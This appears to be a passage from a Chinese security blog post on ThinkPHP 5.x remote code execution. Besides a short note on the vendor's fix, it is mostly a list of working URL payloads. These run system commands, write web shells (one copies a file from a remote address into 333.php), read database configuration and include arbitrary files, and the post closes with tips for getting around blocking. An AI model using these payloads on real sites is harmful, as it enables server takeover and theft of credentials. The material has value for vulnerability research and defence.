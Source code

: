 ## 修复
```
// 获取控制器名
$controller = strip_tags($result[1] ?: $config['default_controller']);

if (!preg_match('/^[A-Za-z](\w|\.)*$/', $controller)) {
	throw new HttpException(404, 'controller not exists:' . $controller);
}
```
大于5.0.23、大于5.1.30获取时使用正则匹配校验
## payload
命令执行
```
5.0.x
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
5.1.x
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
写shell
```
5.0.x
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
5.1.x
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\view\driver\Think/display&template=<?php phpinfo();?>             //shell生成在runtime/temp/md5(template).php
?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=copy(%27远程地址%27,%27333.php%27)
```
其他
```
5.0.x
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
```
如果你碰到了控制器不存在的情况，是因为在tp获取控制器时，`thinkphp/library/think/App.php:561`会把url转为小写，导致控制器加载失败。
![image](https://y4er.com/img/uploads/20191127221875.jpg)
## 总结
其实thinkphp的rce差不多都被拦截了，我们其实更需要将rce转化为其他姿势，比如文件包含去包含日志，或者转向反序列化。姿势太多，总结不过来，这篇文章就到这里把。

# 参考
- https://xz.aliyun.com/t/6106
- https://www.cnblogs.com/iamstudy/articles/thinkphp_5_x_rce_1.html
- https://github.com/Mochazz/ThinkPHP-Vuln
- https://xz.aliyun.com/search?keyword=thinkphp
- https://github.com/Lucifer1993/TPscan
- https://www.kancloud.cn/manual/thinkphp5_1/353946
- https://www.kancloud.cn/manual/thinkphp5
- https://github.com/top-think/thinkphp



**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**